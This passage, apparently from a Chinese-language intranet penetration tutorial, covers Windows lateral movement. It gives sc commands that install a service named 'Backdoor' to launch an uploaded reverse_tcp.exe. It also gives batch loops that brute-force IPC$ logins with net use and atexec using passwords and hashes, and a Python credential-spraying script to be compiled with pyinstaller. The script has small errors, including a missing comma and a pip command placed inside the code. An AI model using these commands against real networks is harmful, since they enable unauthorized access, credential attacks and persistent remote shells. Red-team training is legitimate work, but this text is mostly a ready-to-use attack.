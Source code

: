 ### [sc（系统服务）](#toc_sc)

创建远程服务需要拥有**两端主机的管理员权限（要创建服务）**和 IPC 连接，具体操作：

1.  利用已建立的共享连接向远程主机上传攻击载荷 reverse\_tcp.exe
2.  利用已建立的 IPC 连接在远程主机上创建系统服务 shell

```bash
sc \\192.168.1.131 create Backdoor binpath= "cmd.exe /k c:\users\public\reverse_tcp.exe"
# binpath 的等号后面需要有一个空格
```

-   删除服务 shell

```bash
sc \\192.168.1.131 delete Backdoor
```

### [批量利用脚本、工具进行爆破连接](#toc__2)

```bash
#批量检测 IP 对应明文连接
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator

#批量检测 IP 对应明文 回显版
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami

#批量检测明文对应 IP 回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.1.131 whoami

# 批量检测 HASH 对应 IP 回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.1.131 whoami
```

前期除了收集明文密码 HASH 等，还收集了用户名，用户名配合密码字典，用 python 打包成.exe 可执行文件

```bash
pip install pyinstaller
pyinstaller -F fuck_neiwang_001.py
import os,time
ips = {

}
# net user /domain
users = {
    'Administrator',
    '7BOB',
    'uf9n1x'
    'webserver-2008'

}
passs = {

}

for ip in ips:
    for user in users:
        for mima in passs:
            exec = "net use \\" + ip + '\ipc$' + mima + ' /user:god\\' + user
            print('--->' + exec + '<---')
            os.system(exec)
            time.sleep(1)
```
